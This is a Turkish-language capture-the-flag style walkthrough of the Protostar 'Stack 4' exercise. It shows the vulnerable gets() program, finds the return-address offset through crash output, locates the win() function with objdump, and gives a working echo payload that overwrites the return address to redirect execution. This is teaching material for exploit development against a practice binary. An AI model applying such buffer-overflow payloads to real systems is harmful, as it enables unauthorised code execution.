 ```yaml
---
title: "Stack 4"
etiketler : "Protostar"
seriler: "Protostar"
sakla  : false
---
```


# Stack4.c

``` C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

**Önceki seviyeden farkı burada fp yok!**

**Amaç:** main fonksiyonu içerisinde ki stack taşırılarak `eip` değerini
değiştirip programın akışına manipüle etmek.

# Programın Çalıştırılması
``` text
user@protostar:/opt/protostar/bin$ ./stack4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@protostar:/opt/protostar/bin$ ./stack4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD
Segmentation fault
```
Önceki seviyede fp değişkenini değiştirerek istediğimiz adresteki fonksiyonu
çalıştırabiliyorduk fakat bu seviyede böyle bir imkanımız olmadığı için eip
registerinin stackteki yerini istediğimiz şekilde doldurarak programın akışını
değiştireceğiz.

Programlarda genellikle bir fonksiyon çağırıldığı zaman o fonksiyona girilmeden
önce çalıştırılan fonksiyondan sonra, geri döneceği adresi stacke atar
böylelikle hem fonksiyonların lokal değişkenleri birbirine karışmamış ve
gereksiz yer kaplamamış olur.

# Dönüş adresini tespit etmek

Önceki seviyeden daha uzun bir karakter dizisi kullanıyorum çünkü önceki
seviyedeki gibi lokal değişkeni değil lokal değişkenlerden önce stackte yer
kaplayan dönüş adresini değiştireceğiz. Genellikle Segmentation Fault alana
kadar A ekleyip sonrasına 4 bytelık farklı karakterler ekliyorum.

``` text
user@protostar:/opt/protostar/bin$ ./stack4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF
Segmentation fault
user@protostar:/opt/protostar/bin$ dmesg | tail -1
[16102.708303] stack4[1893]: segfault at 45454545 ip 45454545 sp bffffce0 error 4
```

Programa yukarıdaki gibi uzun bir string verdikten sonra segmentation fault
alıyoruz ve dmesg çıktısına baktığımızda `ip` registerinin `45454545` olduğunu
görüyoruz.

``` python
>>> print( chr(0x45) )
E
```

`0x45`'in E karakterine ait olduğunu tespit ettikten sonra atlamak istediğimiz
fonksiyonun adresini bulmamız gerekiyor.

Hızlıca önceki seviyede yaptığım gibi win fonksiyonunun adresini tespit
ediyorum.


``` text
user@protostar:/opt/protostar/bin$ objdump -S stack4 | grep win
080483f4 <win>:
```

win fonksiyonunun yerini `080483f4` olarak not ediyoruz.

# Programın Akışının Değiştirilmesi

Programa verdiğim 76 adet "A" karakteirnin sonuna bu adresi ekliyorum.

```
user@protostar:/opt/protostar/bin$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf4\x83\x04\x08" | ./stack4
code flow successfully changed
Segmentation fault
```

Böylelikle fonksiyondan çıkarkan eip'ye atanan değişkeni `080483f4` değerine
döndürüp bu adresteki fonksiyonu çalıştırabiliyoruz.

